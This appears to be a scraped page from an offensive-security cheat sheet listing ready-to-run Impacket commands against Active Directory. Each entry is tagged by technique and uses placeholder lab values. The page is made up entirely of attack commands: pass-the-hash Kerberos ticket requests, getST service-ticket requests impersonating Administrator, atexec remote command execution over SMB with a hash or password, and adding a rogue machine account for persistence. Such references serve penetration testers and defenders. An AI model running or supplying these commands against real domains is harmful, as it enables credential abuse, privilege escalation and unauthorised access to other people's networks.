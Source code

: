 [python3 getTGT.py test.local/john -dc-ip 10.10.10.1 -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7](https://wadcoms.github.io/wadcoms/Impacket-getTGT/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-getTGT/#Exploitation)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-getTGT/#Username)
 -   [Hash](https://wadcoms.github.io/wadcoms/Impacket-getTGT/#Hash)
 -   [Kerberos](https://wadcoms.github.io/wadcoms/Impacket-getTGT/#Kerberos)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-getTGT/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-getTGT/#Windows)

[python3 getST.py -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7 -spn www/server01.test.local -dc-ip 10.10.10.1 -impersonate Administrator test.local/john](https://wadcoms.github.io/wadcoms/Impacket-getST-Hash/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-getST-Hash/#Exploitation)
 -   [Persistence](https://wadcoms.github.io/wadcoms/Impacket-getST-Hash/#Persistence)
 -   [Privilege Escalation](https://wadcoms.github.io/wadcoms/Impacket-getST-Hash/#PrivEsc)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-getST-Hash/#Username)
 -   [Hash](https://wadcoms.github.io/wadcoms/Impacket-getST-Hash/#Hash)
 -   [Kerberos](https://wadcoms.github.io/wadcoms/Impacket-getST-Hash/#Kerberos)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-getST-Hash/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-getST-Hash/#Windows)

[python3 getST.py -spn www/server01.test.local -dc-ip 10.10.10.1 -impersonate Administrator test.local/john:password123](https://wadcoms.github.io/wadcoms/Impacket-getST-Creds/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-getST-Creds/#Exploitation)
 -   [Persistence](https://wadcoms.github.io/wadcoms/Impacket-getST-Creds/#Persistence)
 -   [Privilege Escalation](https://wadcoms.github.io/wadcoms/Impacket-getST-Creds/#PrivEsc)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-getST-Creds/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Impacket-getST-Creds/#Password)
 -   [Kerberos](https://wadcoms.github.io/wadcoms/Impacket-getST-Creds/#Kerberos)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-getST-Creds/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-getST-Creds/#Windows)

[python3 atexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 test.local/john@10.10.10.1 whoami](https://wadcoms.github.io/wadcoms/Impacket-atexec-Hash/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-atexec-Hash/#Exploitation)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-atexec-Hash/#Username)
 -   [Hash](https://wadcoms.github.io/wadcoms/Impacket-atexec-Hash/#Hash)
 -   [SMB](https://wadcoms.github.io/wadcoms/Impacket-atexec-Hash/#SMB)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-atexec-Hash/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-atexec-Hash/#Windows)

[python3 atexec.py test.local/john:password123@10.10.10.1 whoami](https://wadcoms.github.io/wadcoms/Impacket-atexec-Creds/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-atexec-Creds/#Exploitation)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-atexec-Creds/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Impacket-atexec-Creds/#Password)
 -   [SMB](https://wadcoms.github.io/wadcoms/Impacket-atexec-Creds/#SMB)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-atexec-Creds/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-atexec-Creds/#Windows)

[python3 addcomputer.py -method SAMR -dc-ip 10.10.10.1 -computer-pass TestPassword321 -computer-name testComputer test.local/john:password123](https://wadcoms.github.io/wadcoms/Impacket-addcomputer-SMB/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-addcomputer-SMB/#Exploitation)
 -   [Persistence](https://wadcoms.github.io/wadcoms/Impacket-addcomputer-SMB/#Persistence)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-addcomputer-SMB/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Impacket-addcomputer-SMB/#Password)
 -   [SMB](https://wadcoms.github.io/wadcoms/Impacket-addcomputer-SMB/#SMB)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-addcomputer-SMB/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-addcomputer-SMB/#Windows)
